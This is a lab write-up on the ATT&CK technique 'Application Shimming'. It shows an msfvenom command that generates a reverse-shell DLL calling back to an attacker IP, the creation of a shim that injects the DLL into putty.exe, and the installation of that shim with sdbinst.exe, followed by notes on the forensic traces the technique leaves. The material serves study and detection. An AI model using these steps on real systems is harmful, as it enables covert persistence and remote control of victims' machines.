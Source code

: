 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this exercise, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored as a 32-bit DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../.gitbook/assets/shim-new-fix.png)

![](../.gitbook/assets/shim-injectdll.png)

![](../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will will still have to be written to the disk and the registry will have to be modified:

![](../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../.gitbook/assets/shim-connection.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1138\",\"type\":\"link\",\"title\":\"Application Shimming - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/\",\"type\":\"link\",\"title\":\"Post Exploitation Persistence With Application Shims \(Intro\) · Blacksun Hackers Club\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blacksunhackers.club/public/apple-touch-icon-precomposed.png\",\"width\":144,\"height\":144,\"aspectRatio\":1}}" %}

